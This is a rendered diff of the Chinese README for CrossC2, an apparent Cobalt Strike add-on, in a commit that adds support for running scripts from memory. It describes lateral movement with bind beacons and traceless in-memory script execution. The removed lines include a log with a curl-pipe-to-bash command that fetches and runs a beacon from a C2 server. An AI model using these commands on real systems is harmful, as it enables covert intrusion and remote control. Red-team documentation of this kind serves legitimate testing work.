

Before and after one commit to gloxec/CrossC2, a Markdown page: README_zh.md, 2 parts joined by grey strips. Shown: that part at 81% size. Rendered like a GitHub page; pictures changed too: media/15901534124389/16041501958652.jpg (added), media/15901534124389/16041502298949.jpg (added); blank space fills up the shorter version.

Commit message:
CrossC2 v2.1 - support cs4.1 and running scripts from memory
Former-commit-id: 060a2aa59cc7532c2ab6876e6f22d0c75c779003

````diff
--- a/README_zh.md
+++ b/README_zh.md
@@ -53,7 +55,7 @@
 | gen beacon (mips[el]) |  |  |  |  |  | ⍻ |
 
 受限说明:
-* CobaltStrike: 暂时仅支持3.14最后一个版本(bug fixs).
+* CobaltStrike: 暂时仅支持3.14最后一个版本(bug fixs), 以及4.x版本(详见cs4.1分支).
 * Linux: 特别老旧的系统可以选择cna中的"Linux-GLIBC"选项（2010年左右）
 * MacOS: 新系统仅支持64位程序
 * iOS: sandbox
@@ -114,35 +116,26 @@
 
 可以更便捷的实现C2Profile配置及自定义通信协议TCP/UDP等等。
 
-## 横向移动: 使用方法 [📖 Wiki]()
+## 横向移动
 
 1. 生成 `Linux-bind` / `MacOS-bind` 类型的beacon
 2. 内网中的目标运行 `./MacOS-bind.beacon <port>` 开启服务
 3. 在网络联通的session中运行 `connect <targetIP>:<port>`
 
+## 内存中运行脚本
 
-## cna插件方式
+可以直接在会话中调用主机中的 **bash** / **python** / **ruby** / **perl** / **php** 等脚本解释器执行传入内存中的脚本。
+`进程中不会存在任何信息，所有运行的内容皆从内存中传入解释器`
+1. python c:\getsysteminfo.py
+2. python import base64;print base64.b64encode('whoami'); print 'a'*40
+3. php <?php phpinfo()?>
 
-```
-菜单栏: CrossC2 -> CrossC2 Payload Generator -> genCrossC2
+尝试加载本地脚本:
+![](media/15901534124389/16041501958652.jpg)
 
-弹出的对话框中可以配置:
-1. 选择beacon_key(路径中不可以包含空格，该问题暂时未解决)
-2. 需要给beacon绑定的自定义通信协议动态库
-3. Payload类型(Staged生成的shellcode需要stagerServer)
-```
+尝试直接运行脚本语言:
+![](media/15901534124389/16041502298949.jpg)
 
-![](media/15901534124389/15901617930412.jpg)
-
-生成时信息状态会在event界面中提示
-
-```
-05/01 23:31:03 *** /mnt/cc2/genCrossC2.MacOS 172.16.251.1 5555 /tmp/beacon_keys null MacOS x64 /tmp/CrossC2-test
-05/01 23:31:06 *** genCrossC2 beacon -> *[success] :	Packed 1532232 byte.
-05/01 23:31:07 *** hook hosted CrossC2 beacon MacOS x64 @ http://172.16.251.1:55413/iqEBVKwHoZ
-05/01 23:31:07 *** hook hosted Script Unix Web Delivery (curl) @ http://172.16.251.1:55413/a
-05/01 23:31:07 *** CrossC2 MacOS x64:   curl -A o -o- -L http://172.16.251.1:55413/a | bash -s
-```
 
 
 # 即将上线
````
Also changed, not shown: other parts of README_zh.md (+8 -1 lines), README.md (+23 -24 lines).
